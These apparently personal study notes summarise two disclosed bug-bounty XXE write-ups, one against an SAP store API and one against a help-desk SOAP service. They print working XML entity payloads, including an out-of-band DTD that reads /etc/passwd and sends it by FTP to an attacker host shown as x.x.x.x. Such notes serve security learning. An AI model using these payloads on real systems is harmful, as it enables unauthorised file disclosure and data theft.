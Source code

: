 ----
----


## Simple XXE 

[link](https://medium.com/@zain.sabahat/an-interesting-xxe-in-sap-8b35fec6ef33)


https://store.sap.com redirected  to https://store.sap.com/sap/cpa/ui/resources/store/html/StoreFront.html

One of the POST request to “/sap/cpa/api/getSolutions"

<br>
![image](https://miro.medium.com/max/1400/1*hfoBaTN6bjEQ0p_yenXoJw.png)

<br>

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM “Zain Here”> ]>
<SolutionListRequest><Facets><FacetType><Code/><Value/></FacetType></Facets
<ListingType>2</ListingType><CountryCode>US</CountryCode><RetrieveAllDetailsIndicator>1</RetrieveAllDetailsIndicator><RetrieveFacetsIndicator/>
<RowCount>24&xxe;</RowCount><RowIndex>1</RowIndex><SearchText/><SolutionGroup/>
<SolutionTypeIndicator/><CategoryID/><RecommenderPageIndicator/><ResellerID/>
<ShoppingCartID/><CompanyID/><EndCustomerAddressID/><UserRoleCode/>
</SolutionListRequest>
```

he passed this  He get error but also get name reflected 
after that he used for reading /etc/passwd 

----

## Out of Band XXE 

[link](https://medium.com/@mrnikhilsri/soap-based-unauthenticated-out-of-band-xml-external-entity-oob-xxe-in-a-help-desk-software-c27a6abf182a)

while registering he got this file

> https://victim.com/services/ApiService?wsdl

simple /etc/passwd was showing the error 

I setup an xxe.dtd file on my server with following payload:

```xml
<!ENTITY % d SYSTEM “file:///etc/passwd”>
<!ENTITY % c “<!ENTITY rrr SYSTEM ‘ftp://x.x.x.x:2121/%d;'>">
```

> https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb

for making ftp server 

```xml
<!DOCTYPE a [ <!ENTITY % asd SYSTEM "http://x.x.x.x/xxe.dtd"> %asd; %c;]>
<sessionId>&rrr;</sessionId>
```

